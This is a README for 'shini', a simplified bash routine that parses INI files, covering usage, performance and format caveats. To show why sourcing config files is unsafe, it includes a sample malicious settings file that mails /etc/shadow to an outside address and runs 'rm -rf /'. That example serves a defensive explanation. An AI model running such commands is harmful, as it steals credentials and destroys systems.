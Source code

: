shini
=====

A small, minimalist, <s>portable</s> <em>compatible</em><sup>1</sup> `/bin/bash` routine for reading of INI files.

<em><sup>1</sup> This script previously attempted to be "portable", that is to say - written in a manner that it would reliably have a good chance of running anywhere with no specific implementation coded inside.  In order to gain usable performance on INI files bigger than "very small", it has since been modified to include shell specific implementation for recent versions of `bash` - considerably increasing performance at the cost of code complexity.  Therefore, I am calling it 'compatible' herein.</em>

NOTE by pachi-belero: this fork contains a very simplified version of the original `shini`, which disables callbacks and writing, as well as support for old shell versions (and any shell different from bash).

## About

### What is `shini`?
As above.  It's a small set of functions written for inclusion in shell scripts, released under the MIT license.

### Is it slow?
Shell scripting was never designed with speed for this kind of processing in mind.  That said, on recent versions of `bash` (version 3 or newer) the performance is quite acceptable.

On an 2012 i7 MacBook, a 1900 line INI file will fully parse within 0.6s:

    $ wc -l tests/php.ini 
    1917 tests/php.ini

    $ time bash ./test_perf.sh > /dev/null
    real    0m0.838s

    $ time bash ./test_perf.sh opcache > /dev/null
    real    0m0.313s

### Why do I need it?
You probably don't.  But if you have or ever do find yourself writing a shell script which:
 * Needs system or user specific settings
 * Needs to read an existing INI file

... then you might find `shini` saves you a lot of time, and makes things safer.

### How can it make things safer?
Because system and user specific settings in shell scripts usually end up implemented as:

```
# /usr/local/sbin/rootonlyscript
. /etc/myscript
if [ -n SETTING1 ]; then
  echo "You didn't specify SETTING1" 1>&2
fi
```

The settings file looks like:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
```
... and everything is cool until *this* happens:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
cat /etc/shadow | mail someone@wishyouwerehere.com
rm -rf /
```

Alas, bye bye shadow file - bye bye system.

`shini` only reads the file; never includes, interprets or executes it.  A better solution.

### So `shini` just makes my shell script secure?

Erm, no.  Please go away and learn to code before proceeding.

Remember:
 * Your config file must always have sane file permissions - even if its an INI file
 * `shini` is to be included in your script - so it should be located somewhere safe, and with read-only permissions

Best advice, if in doubt:

```
sudo chown root:root shell-ini-parser.sh
sudo chmod 644 shell-ini-parser.sh
```

## Usage

### Show me `shini`!

To see `shini` in action in under 2 minutes:

```
cd "$(mktemp -d -t shini)"
curl https://codeload.github.com/wallyhall/shini/tar.gz/master -o master.tar.gz
tar -xvzf master.tar.gz
chmod +x shini-master/example.sh
cd shini-master/
sh example.sh
```

You should be presented with some output like this (but slightly different in the simplified version):

```
Parsing...

  Section1.name='John Doe'
  Section1.organization='Acme Widgets Inc.'
  Section2.server='10.1.2.3'
  Section2.port='80'
  Section2.file='payroll.dat'
  Section2.this_value_was_in_hex='8739'
  Another_Section.test_key_22='test test test'
  Another_Section.var_with_leading_whitespace='value'
  Another_Section.whitespace_test='lots of whitespace'
  Another_Section.quoted_quotespace='  lots more whitespace  '
  Whitespace_Section.null_value=''

Complete.
```

You've just executed the shipped example/test script (`example.sh`) - which parses an example INI file (`example.ini`) - outputting the content in the format `[section].[key]=[value]`.

## Cool.  Now show me how to include and use it myself!

Inclusion of `shini` in your own project is easy.  You can put the content of `shell-ini-parser.sh` inline with your own code (not recommended, but acceptable.  Make sure you appropriately include the MIT license...), or 'source' it externally - i.e.:

```
. "$(dirname "$0")/shell-ini-parser.sh"
. "/usr/local/bin/shell-ini-parser.sh"
... etc
```

`shini` works by parsing INI files line by line - skipping comments.

Each argument can should be carefully handled - always double quote (unless you're certain what you're doing).  Never forget you can't guarantee what is in the INI file being parsed - it could be with evil intent.

When you're ready, invoke the parse function and (optionally) specify the specific INI section you're interested in. You can also optionally set the prefix used to name variables:

```
shini_parse_section "settings.ini"
shini_parse_section "settings.ini" "SomeSection"
shini_parse_section "settings.ini" "" "INI"
```

Bingo. All the variables found will be set in the form PREFIX__SECTION__NAME (note the double underscores and that PREFIX defaults to "SHINI"). Note that the variable names will always be uppercase.
A full (and simple) example can be found in `example.sh`. You can run `. ./example.sh` and see the new variables set, such as SHINI__SECTION1__NAME.

## Known caveats, etc

### Does `shini` follow the official INI format standards?

There are no INI format standards - so yes it does and no it doesn't?

`shini` assumes:

 * Every declaration is on a new line
 * __Sections__ are contained in square brackets, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (no spaces by default) - e.g. `[section]`
 * __Keys__ are followed by an assignment (equal) sign, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (again, no spaces by default) - e.g. `key=`
 * __Values__ follow keys, on the same line.  Anything is valid, except double quotes and semi-colons.  Hexadecimal values (i.e. `0x123`) are parsed and converted to decimal for you.
 * __Comments__ are lines starting with a semi-colon (`;`), such lines are ignored.
 * __Whitespace__ is ignored everywhere - except in between non-whitespace characters in values.  Use double quotes (`"`) to be explicit (e.g. `key=" leading/trailing WS "`)

Due to portability constraints - some of the useful regex power isn't available to `shini`.

This caused some trade-offs - with a lack of efficient control over lazy vs greedy repeats and optional groups etc, comments can only follow key/pair values and empty lines (not sections) - and where it follows values, any whitespace between the value and semi-colon is included as the value.  Explicitly use of double-quotes around the value gets around this issue.

Additionally if your key/value declaration looks like this:

```
key="value" "more text" ; comment
```

... the value reads literally:

```
"value" "more text" ; comment
```

Otherwise, all known "obviously invalid" INI content gets picked up and reported.
